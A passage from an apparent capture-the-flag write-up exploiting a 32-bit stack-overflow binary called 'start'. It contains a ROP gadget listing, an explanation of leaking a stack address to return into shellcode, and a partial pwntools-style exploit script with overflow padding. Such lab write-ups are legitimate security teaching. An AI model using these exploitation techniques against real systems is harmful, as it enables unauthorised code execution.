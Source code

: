 ```sh
0x08048087: mov ecx, esp; mov dl, 0x14; mov bl, 1; mov al, 4; int 0x80;
0x0804809d: pop esp; xor eax, eax; inc eax; int 0x80;
0x08048090: xor byte ptr [ecx], 0xdb; mov dl, 0x3c; mov al, 3; int 0x80;
0x08048090: xor byte ptr [ecx], 0xdb; mov dl, 0x3c; mov al, 3; int 0x80; add esp, 0x14; ret;
0x0804809e: xor eax, eax; inc eax; int 0x80;
0x08048091: xor ebx, ebx; mov dl, 0x3c; mov al, 3; int 0x80;
0x08048091: xor ebx, ebx; mov dl, 0x3c; mov al, 3; int 0x80; add esp, 0x14; ret;
0x08048086: daa; mov ecx, esp; mov dl, 0x14; mov bl, 1; mov al, 4; int 0x80;
0x0804809c: ret;

23 gadgets found
```

Hmmm, interesting. It seems there aren’t many useful gadgets, as I had guessed. It took me a lot of time to figure out how to use these gadgets effectively. Finally, I found one that found:
```sh
0x08048086: daa; mov ecx, esp; mov dl, 0x14; mov bl, 1; mov al, 4; int 0x80;
```

This gadget has a useful property—it can print out the value at the top of the stack. If we look back at our analysis, we can see that this is part of the `write` syscall we examined earlier. And once we have the leak address just calculate back to our input `buf` and put the shellcode there and let the program return back to our shellcode (The program lets us input data a second time because we use gadgets in the `_start` function and it will perform all its instructions until it encounters `ret`)

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwncus import *

context.log_level = 'debug'
exe = context.binary = ELF('./start', checksec=False)
context.arch = 'i386'

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript='''

        b*0x08048097
        c
        '''.format(**locals()), *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

p = start()

# ==================== EXPLOIT ====================

'''
0x08048086: daa; mov ecx, esp; mov dl, 0x14; mov bl, 1; mov al, 4; int 0x80;
'''

def exploit():

    offset = 20
    print_stack = 0x08048086

    pl = cyclic(offset) + p32(print_stack)

    ru(b'CTF:')
    s(pl)

```